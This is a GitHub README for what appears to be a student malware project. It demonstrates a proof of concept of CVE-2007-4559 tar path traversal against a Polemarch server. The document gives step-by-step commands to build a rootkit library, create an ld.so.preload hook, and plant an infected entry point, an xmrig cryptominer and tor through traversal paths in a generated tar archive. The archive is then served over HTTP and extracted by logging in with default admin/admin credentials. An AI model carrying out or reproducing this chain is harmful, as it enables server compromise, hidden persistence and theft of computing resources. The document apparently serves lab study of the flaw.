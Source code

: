 # MALW
Malware UPC

## Set up

### Docker
```bash
$: docker compose build 
$: docker compose up -d
```

Polemarch server available at http://localhost:8080

### Vagrant
```bash
$: vagrant up
```

Polemarch server available at http://localhost:8085

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:

- /usr/local/lib
  - -> **rootkit.so**: library to load
- /etc
  - -> **ld.so.preload**: library to load before any other library
- /opt/polemarch/bin
  - -> **polemarchctl**: infected docker entry point
- /usr/bin
  - -> **xmring**: miner
  - -> **tor**: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Generate tar with the malware
- Create server hosting the compromised tar files

### Polemarch server
First, deploy the polemarch server (with vagrant or docker):

```bash
$: docker compose build 
$: docker compose up -d
```

And open the web interface at http://localhost:8080

Or with vagrant:

```bash
$: vagrant up
```

And open the web interface at http://localhost:8085

### Generate tar files
The tar files will be generated in the `poc/tar/` folder.

But first, we need to set up all the files for generating the tar correctly.

1. Copy the binaries to the `poc` folder:

```bash
$: cp cryptominer/tor poc/
$: cp crytominer/xmrig poc/
```

2. Generate the rootkit shared library in the `poc/rootkit` folder:

```bash
$(rootkit): make
```

3. Copy the rootkit shared library to the `poc` folder:

```bash
$: cp rootkit/rootkit.so poc/
```

And then we can generate the tar files:

```bash
# Execute tar files generator
$: python3 tar.py
[*] Creating symlink aaaa -> etc/
[*] Creating symlink bbbb -> usr/local/lib/
[*] Creating symlink cccc -> usr/bin/
[*] Creating symlink dddd -> opt/polemarch/bin/
[*] Changing aaaa to ../../../../../../../../../test/aaaa
[*] Changing bbbb to ../../../../../../../../../test/bbbb
[*] Changing cccc to ../../../../../../../../../test/cccc
[*] Changing dddd to ../../../../../../../../../test/dddd
[*] Changing ld.so.preload to ../../../../../../../../../test/aaaa/ld.so.preload
[*] Changing rootkit.so to ../../../../../../../../../test/bbbb/rootkit.so
[*] Changing tor to ../../../../../../../../../test/cccc/tor
[*] Changing xmrig to ../../../../../../../../../test/cccc/xmrig
[*] Changing polemarchctl to ../../../../../../../../../test/dddd/polemarchctl
[*] Removing symlink aaaa
[*] Removing symlink bbbb
[*] Removing symlink cccc
[*] Removing symlink dddd
```

This will generate the following tar files:
- `poc/tar/rootkit.tar.gz`: tar file with the malware

### Server hosting the tar files
Host the tar files, for example with python:
```bash
$: cd poc/tar
$: python -m http.server 3005
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![Project](./images/project.png)

"Sync" the project, which will untar untar our compromised tar.

Note: the server hosting IP must be accessible from the docker of virtual machine
